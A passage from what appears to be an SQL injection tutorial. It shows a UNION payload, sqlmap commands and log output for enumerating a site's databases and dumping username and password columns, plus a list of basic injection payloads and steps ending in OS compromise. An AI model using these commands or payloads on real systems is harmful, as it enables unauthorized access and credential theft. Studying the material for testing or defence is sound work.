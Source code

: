 ```
?id=5'%22union%22all%22select%221,2,3%22from%22admin
```
So, for example, to find the database name, we run the *sqlmap* script with target *-u* and enumeration options *--dbs* (enumerate DBMS databases):

```
$ ./sqlmap.py -u <WEBSITE> --dbs
(...)
[12:59:20] [INFO] testing if URI parameter '#1*' is dynamic
[12:59:22] [INFO] confirming that URI parameter '#1*' is dynamic
[12:59:23] [WARNING] URI parameter '#1*' does not appear dynamic
[12:59:25] [WARNING] heuristic (basic) test shows that URI parameter '#1*' might not be injectable
[12:59:25] [INFO] testing for SQL injection on URI parameter '#1*'
[12:59:25] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[12:59:27] [WARNING] reflective value(s) found and filtering out
[12:59:51] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE or HAVING clause'
[13:00:05] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[13:00:16] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause'
(...)
```

#### Gaining access to the Database

* From this we can verify what databases we have available, for example. From this we can find out how many tables exist, and their respective names. The sqlmap command is:

```
./sqlmap -u <WEBSITE> --tables <DATABASE-NAME>
```

* The main objective is to find  usernames and passwords in order to gain access/login to the site, for example in a table named *users*. The sqlmap command is

```
./sqlmap -u <WEBSITE> --columns -D <DATABASE-NAME> -T <TABLE-NAME>
```

This will return information about the columns in the given table.

* Now we can dump all the data of all columns using the flag ```-C``` for column names:

```
./sqlmap -u <WEBSITE> --columns -D <DATABASE-NAME> -T <TABLE-NAME> -C 'id,name,password,login,email' --dump
```

If the password are clear text (not hashed in md5, etc), we have access to the website.

## Basic SQL Injection Exploit Steps

1. Fingerprint database server.
2. Get an initial working exploit. Examples of payloads:
	- '
	- '--
	- ')--
	- '))--
	- or '1'='1'
	- or '1'='1
	- 1--
3. Extract data through UNION statements:
	- NULL: use as a column place holder helps with data type conversion errors
	- GROUP BY - help determine number of columns
4. Enumerate database schema.
5. Dump application data.
6. Escalate privilege and pwn the OS.
